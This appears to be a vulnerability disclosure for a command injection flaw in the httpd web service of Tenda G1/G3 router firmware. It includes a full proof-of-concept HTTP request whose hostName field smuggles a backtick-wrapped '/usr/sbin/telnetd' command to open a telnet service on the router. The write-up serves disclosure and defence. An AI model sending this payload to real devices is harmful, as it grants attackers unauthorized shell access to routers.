





# Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `formSetNetCheckTools` function, `hostName` is directly passed by the attacker, so we can control the `hostName` to attack the OS.

<div  align="center"></div>

As you can see here, in `cmd_get_ping_output` function, the initial input has not checked and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

The same problem exists in the `cmd_get_traceroute_output` function.

<div  align="center"></div>


## PoC

We set `hostName` as **`/usr/sbin/telnetd`guest** , and the router will excute it,such as:

```http
POST /goform/setFixTools HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/sysManage/sysTool.html?0.6642106583319981
Cookie: _:USERNAME:_=; G3v3_user=

networkTool=1&hostName=`/usr/sbin/telnetd`www.baidu.com&packageNum=1&packageSize=32
```

<div  align="center"></div>


## Result

The target router has enabled the telnet service.

<div  align="center"></div>
